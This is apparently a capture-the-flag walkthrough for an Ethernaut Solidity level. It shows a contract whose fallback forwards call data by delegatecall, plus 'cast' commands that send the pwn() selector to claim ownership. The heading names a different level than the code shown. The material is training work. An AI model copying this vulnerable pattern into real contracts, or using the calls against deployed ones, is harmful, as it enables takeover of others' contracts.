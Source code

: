 ## Fallback Level Outline

**Difficulty : 4/10**

The goal of this level is for you to claim ownership of the instance you are given.

```solidity  
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Delegate {

  address public owner;

  constructor(address _owner) public {
    owner = _owner;
  }

  function pwn() public {
    owner = msg.sender;
  }
}

contract Delegation {

  address public owner;
  Delegate delegate;

  constructor(address _delegateAddress) public {
    delegate = Delegate(_delegateAddress);
    owner = msg.sender;
  }

  fallback() external {
    (bool result,) = address(delegate).delegatecall(msg.data);
    if (result) {
      this;
    }
  }
}
```

[Link to level on Ethernaut](https://ethernaut.openzeppelin.com/level/0x0b6F6CE4BCfB70525A31454292017F640C10c768)

## Solution

We can **spoof** the delegate call by sending a transation that contains the function signature to the "pwn()" function.

### Walkthrough

1. getting the methodId for the pwn() function
```console
cast calldata "pwn()"
```
output
```console
0xdd365b8b
```
2. making a call to the fallback function where `msg.data` equals the calcualted methodId
```console
cast send $LEVEL_ADDRESS 0xdd365b8b --gas 50000 --private-key $PRIVATE_KEY 
```
> we need to set a custom gas limit for this transaction as the default amount insufficient

## Further Reading
[Video on Delegatecall](https://www.youtube.com/watch?v=uawCDnxFJ-0&t=208s)

[More info about methodId](https://docs.soliditylang.org/en/v0.8.13/abi-spec.html)

